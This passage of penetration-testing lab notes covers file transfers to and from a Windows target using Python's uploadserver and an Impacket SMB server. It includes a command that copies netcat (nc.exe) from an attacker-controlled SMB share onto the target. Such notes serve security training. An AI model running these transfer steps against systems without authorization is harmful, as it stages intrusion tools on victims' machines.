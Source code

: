 ### PowerShell Web Uploads
* PowerShell doesn't have a built-in function for upload operations
* But we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function

#### Installing a Configured WebServer with Upload
```sh
$ pip3 install uploadserver

Collecting upload server
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

```sh
$ python3 -m uploadserver

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### SMB Downloads
* create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB

```sh
$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Copy a File from the SMB Server
```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```

* Newer versions of Windows block unauthenticated guest access

```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```
